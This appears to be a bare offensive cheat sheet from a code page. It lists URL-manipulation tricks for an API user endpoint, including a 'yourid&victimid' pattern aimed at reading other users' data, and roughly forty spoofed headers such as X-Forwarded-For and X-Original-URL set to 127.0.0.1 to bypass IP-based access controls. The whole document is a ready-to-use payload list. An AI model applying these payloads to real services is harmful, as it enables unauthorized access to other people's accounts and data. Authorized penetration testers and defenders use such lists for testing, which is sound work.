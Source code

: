 # tricks on /api/v1/user/id
/api/v1/user/id.json\
/api/v1/user/id?\
/api/v1/user/id/\
/api/v2/user/id\
/api/v1/user/id&accountdetail\
/api/v1/user/yourid&victimid\
X-Original-URL: /api/v1/user/id/\

# headers
Base-Url: 127.0.0.1\
Client-IP: 127.0.0.1\
Http-Url: 127.0.0.1\
Proxy-Host: 127.0.0.1\
Proxy-Url: 127.0.0.1\
Real-Ip: 127.0.0.1\
Redirect: 127.0.0.1\
Referer: 127.0.0.1\
Referrer: 127.0.0.1\
Refferer: 127.0.0.1\
Request-Uri: 127.0.0.1\
Uri: 127.0.0.1\
Url: 127.0.0.1\
X-Client-IP: 127.0.0.1\
X-Custom-IP-Authorization: 127.0.0.1\
X-Forward-For: 127.0.0.1\
X-Forwarded-By: 127.0.0.1\
X-Forwarded-For-Original: 127.0.0.1\
X-Forwarded-For: 127.0.0.1\
X-Forwarded-Host: 127.0.0.1\
X-Forwarded-Port: 443\
X-Forwarded-Port: 4443\
X-Forwarded-Port: 80\
X-Forwarded-Port: 8080\
X-Forwarded-Port: 8443\
X-Forwarded-Scheme: http\
X-Forwarded-Scheme: https\
X-Forwarded-Server: 127.0.0.1\
X-Forwarded: 127.0.0.1\
X-Forwarder-For: 127.0.0.1\
X-Host: 127.0.0.1\
X-Http-Destinationurl: 127.0.0.1\
X-Http-Host-Override: 127.0.0.1\
X-Original-Remote-Addr: 127.0.0.1\
X-Original-Url: 127.0.0.1\
X-Originating-IP: 127.0.0.1\
X-Proxy-Url: 127.0.0.1\
X-Real-Ip: 127.0.0.1\
X-Remote-Addr: 127.0.0.1\
X-Remote-IP: 127.0.0.1\
X-Rewrite-Url: 127.0.0.1\
X-True-IP: 127.0.0.1
